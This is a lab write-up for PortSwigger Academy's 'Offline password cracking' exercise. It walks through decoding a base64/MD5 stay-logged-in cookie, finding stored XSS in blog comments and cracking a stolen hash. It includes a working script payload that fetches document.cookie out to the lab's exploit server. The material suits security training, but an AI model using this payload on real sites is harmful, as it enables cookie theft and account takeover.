





# Write-up: Offline password cracking @ PortSwigger Academy



This write-up for the lab *Offline password cracking* is part of my walkthrough series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Learning path: Server-side topics → Authentication

Lab-Link: <https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking>  
Difficulty: PRACTITIONER  
Python script: Currently no python script


## Lab description



Clickable links for [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames) and [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Steps

### Analyze cookie

As usual, the first step is to analyze the functionality of the lab, in this case, the login functionality. For this, I log in with the known credentials for `wiener`. Like in the [previous lab](../Brute-forcing_a_stay-logged-in_cookie/README.md), the lab uses a `stay-logged-in` cookie:

`Set-Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw; Expires=Wed, 01 Jan 3000 01:00:00 UTC`

Burp Inspector quickly shows that it contains the username and a hash in base64:


A quick check confirms that it is the password as MD5 hash again:


### Find XSS vulnerability

Next, I have to find the XSS vulnerability. The page allows for writing comments that have 4 possible input fields: comment, name, email and website.

The email and website fields do some basic client-side validity checks. It might be possible to inject anything there if the validation is flawed, but I try the other two fields first as they hit the server straight away.

Injecting some basic test in the comment and name fields reveal that the comment field is injectable with this code.

```javascript
<script>alert(document.location)</script>
```



### Inject a real payload

Now we have to come up with some payload that will provide us with the cookie value when carlos looks at the page. For this, we have the exploit server where we can see the access log for the web server. Let's craft a little script that loads a document from there:

```javascript
<script>
fetch('https://exploit-0a8c008a03da770bc09ca69d015400e1.web-security-academy.net/' + document.cookie, {
method: 'GET'
});
</script> 
```



Sure enough, the server log reveals that someone that is not me looked at the page:


Interestingly, there also is a `secret` cookie that I don't see on my own account. With Burp Decoder or the good old console we find the hash of carlos' password:


The internet has a lot of hash cracker websites, using [crackstation](https://crackstation.net/) the value of the password is quickly found:


Now I simply log in as carlos and delete the account


Afterward, the lab updates to


